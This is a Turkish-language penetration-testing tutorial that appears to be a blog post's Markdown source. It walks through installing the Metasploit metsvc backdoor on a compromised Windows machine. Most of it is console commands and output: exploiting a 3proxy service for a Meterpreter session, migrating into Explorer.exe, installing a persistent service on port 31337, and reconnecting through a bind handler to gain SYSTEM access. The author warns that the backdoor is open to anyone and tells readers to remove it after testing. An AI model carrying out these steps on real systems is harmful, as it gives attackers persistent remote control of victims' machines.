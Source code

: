 ```yaml
---
draft: false

title:  'MSF Meterpreter Backdoor'
date: '2017-06-15T13:56:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Hedef sisteme giriş yaptıktan sonra, kalıcılık sağlamanın bir yolu da\_metsvc\_servisini kullanmaktır. Bu servis sayesinde istediğiniz zaman tekrar Meterpreter oturumu açabilirsiniz.\_metsvc\_hakkında detaylı bilgiyi bağlantıyı kullanarak inceleyebilirsiniz." 
 
url:  /tr/msf-meterpreter-backdoor/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Meterpreter metsvc



Hedef sisteme giriş yaptıktan sonra, kalıcılık sağlamanın bir yolu da `metsvc` servisini kullanmaktır. Bu servis sayesinde istediğiniz zaman tekrar Meterpreter oturumu açabilirsiniz. <a href="http://www.phreedom.org/software/metsvc/">metsvc</a> hakkında detaylı bilgiyi bağlantıyı kullanarak inceleyebilirsiniz.



metsvc hakkında bilmeniz gereken önemli bir noktayı vurgulayalım. **Bu servisi yerleştirdiğiniz bilgisayarın ilgili portunu bulan herkes bu arka kapıyı kullanabilir.** Pentest işlemleri esnasında kullandıktan sonra iptal etmelisiniz yoksa sistemi, art niyetli kişilere açık duruma getirmiş olursunuz. Bu da sistem sahiplerinin hiç hoşuna gitmeyebilir.



Öncelikle sistemde, bulduğunuz bir açıklıkla ilgili modülü kullanarak meterpreter oturumu açalım.


```bash
msf exploit**(**3proxy**)** **>** exploit

**[*********]** Started reverse handler
**[*********]** Trying target Windows XP SP2 - English...
**[*********]** Sending stage **(**719360 bytes**)**
**[*********]** Meterpreter session 1 opened **(**192.168.1.101:4444 -> 192.168.1.104:1983**)**
```



`ps` komutuyla `Explorer.exe` programının PID numarasını bulalım ve `migrate` komutuyla bu PID numaralı programa geçiş yapalım.


```bash
meterpreter **>** ps

Process list
**============**

    PID   Name                 Path
    ---   ----                 ----
    132   ctfmon.exe           C:\WINDOWS\system32\ctfmon.exe
    176   svchost.exe          C:\WINDOWS\system32\svchost.exe
    440   VMwareService.exe    C:\Program Files\VMware\VMware Tools\VMwareService.exe
    632   Explorer.EXE         C:\WINDOWS\Explorer.EXE
    796   smss.exe             \SystemRoot\System32\smss.exe
    836   VMwareTray.exe       C:\Program Files\VMware\VMware Tools\VMwareTray.exe
    844   VMwareUser.exe       C:\Program Files\VMware\VMware Tools\VMwareUser.exe
    884   csrss.exe            \??\C:\WINDOWS\system32\csrss.exe
    908   winlogon.exe         \??\C:\WINDOWS\system32\winlogon.exe
    952   services.exe         C:\WINDOWS\system32\services.exe
    964   lsass.exe            C:\WINDOWS\system32\lsass.exe
    1120  vmacthlp.exe         C:\Program Files\VMware\VMware Tools\vmacthlp.exe
    1136  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1236  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1560  alg.exe              C:\WINDOWS\System32\alg.exe
    1568  WZCSLDR2.exe         C:\Program Files\ANI\ANIWZCS2 Service\WZCSLDR2.exe
    1596  jusched.exe          C:\Program Files\Java\jre6\b**in**\jusched.exe
    1656  msmsgs.exe           C:\Program Files\Messenger\msmsgs.exe
    1748  spoolsv.exe          C:\WINDOWS\system32\spoolsv.exe
    1928  jqs.exe              C:\Program Files\Java\jre6\b**in**\jqs.exe
    2028  snmp.exe             C:\WINDOWS\System32\snmp.exe
    2840  3proxy.exe           C:\3proxy\b**in**\3proxy.exe
    3000  mmc.exe              C:\WINDOWS\system32\mmc.exe

meterpreter **>** migrate 632
**[*********]** Migrating to 632...
**[*********]** Migration completed successfully.
```



`metsvc` modülünü kullanmadan önce yardımı görüntüleyelim ve bize hangi olanakları sağladığını görelim.


```bash
meterpreter **>** run metsvc -h
**[*********]**
OPTIONS:

    -A        Automatically start a matching multi/handler to connect to the service
    -h        This help menu
    -r        Uninstall an existing Meterpreter service **(**files must be deleted manually**)**

meterpreter **>**
```



`metsvc`, normalde bize geri bağlantı da sağlayan bir programdır ancak biz zaten Meterpreter oturumu açtığımız için geri bağlantıya şimdilik ihtiyacımız yok. Sadece programı çalıştıralım.


```bash
meterpreter **>** run metsvc
**[*********]** Creating a meterpreter service on port 31337
**[*********]** Creating a temporary installation directory C:\DOCUME~1\victim\LOCALS~1\Temp\JplTpVnksh...
**[*********]**  **>>** Uploading metsrv.dll...
**[*********]**  **>>** Uploading metsvc-server.exe...
**[*********]**  **>>** Uploading metsvc.exe...
**[*********]** Starting the service...
**[*********]**      ***** Installing service metsvc
 ***** Starting service
Service metsvc successfully installed.

meterpreter **>**
```



`metsvc` başladı ve artık bağlanmak için bekliyor. Şimdi bu servisle nasıl haberleşeceğimizi görelim.



Hedef sistemde dinleme durumundaki `metsvc` ile haberleşmek için `windows/metsvc_bind_tcp` payload modülünü kullanacağız. Modülü, aşağıdaki örnekte olduğu gibi aktif hale getirelim ve gerekli PORT ayarlarını yapalım.


```bash
msf **>** use exploit/multi/handler
msf exploit**(**handler**)** **>** set PAYLOAD windows/metsvc_bind_tcp
PAYLOAD **=>** windows/metsvc_bind_tcp
msf exploit**(**handler**)** **>** set LPORT 31337
LPORT **=>** 31337
msf exploit**(**handler**)** **>** set RHOST 192.168.1.104
RHOST **=>** 192.168.1.104
msf exploit**(**handler**)** **>** show options

Module options:

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options **(**windows/metsvc_bind_tcp**)**:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LPORT     31337            yes       The local port
   RHOST     192.168.1.104    no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit**(**handler**)** **>** exploit

**[*********]** Starting the payload handler...
**[*********]** Started bind handler
**[*********]** Meterpreter session 2 opened **(**192.168.1.101:60840 -> 192.168.1.104:31337**)**
```



Gördüğünüz gibi `session 2` otomatik olarak açıldı. Şimdi, `metsvc` servisinin hedef bilgisayarda hangi PID numarasıyla çalıştığına bakalım.


```bash
meterpreter **>** ps

Process list
**============**

   PID   Name               Path                                                  
   ---   ----               ----                                                  
   140   smss.exe           \SystemRoot\System32\smss.exe                         
   168   csrss.exe          \??\C:\WINNT\system32\csrss.exe                       
   188   winlogon.exe       \??\C:WINNT\system32\winlogon.exe                    
   216   services.exe       C:\WINNT\system32\services.exe                        
   228   lsass.exe          C:\WINNT\system32\lsass.exe                           
   380   svchost.exe        C:\WINNT\system32\svchost.exe                         
   408   spoolsv.exe        C:\WINNT\system32\spoolsv.exe                         
   444   svchost.exe        C:\WINNT\System32\svchost.exe                         
   480   regsvc.exe         C:\WINNT\system32\regsvc.exe                          
   500   MSTask.exe         C:\WINNT\system32\MSTask.exe                          
   528   VMwareService.exe  C:\Program Files\VMware\VMware Tools\VMwareService.exe
   564   metsvc.exe         c:\WINNT\my\metsvc.exe                                
   588   WinMgmt.exe        C:\WINNT\System32\WBEM\WinMgmt.exe                    
   676   cmd.exe            C:\WINNT\System32\cmd.exe                             
   724   cmd.exe            C:\WINNT\System32\cmd.exe                             
   764   mmc.exe            C:\WINNT\system32\mmc.exe                             
   816   metsvc-server.exe  c:\WINNT\my\metsvc-server.exe                         
   888   VMwareTray.exe     C:\Program Files\VMware\VMware Tools\VMwareTray.exe   
   896   VMwareUser.exe     C:\Program Files\VMware\VMware Tools\VMwareUser.exe   
   940   firefox.exe        C:\Program Files\Mozilla Firefox\firefox.exe          
   972   TPAutoConnSvc.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnSvc.exe
   1000  Explorer.exe       C:\WINNT\Explorer.exe                                 
   1088  TPAutoConnect.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnect.exe

meterpreter **>** pwd
C:\WINDOWS\system32
meterpreter **>** getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter **>**
```



Çıktıdan görülebileceği gibi, `metsvc` programı, 564 PID numarasıyla çalışmaktadır. Artık istediğiniz zaman, hedef bilgisayarda dinleme yapan programa, `windows/metsvc_bind_tcp` payload modülünü kullanarak bağlanabiliriz.



Tekrar hatırlatmak gerekirse, güvenlik testi işlemleriniz bittiğinde `metsvc` programını sistemden silmelisiniz.
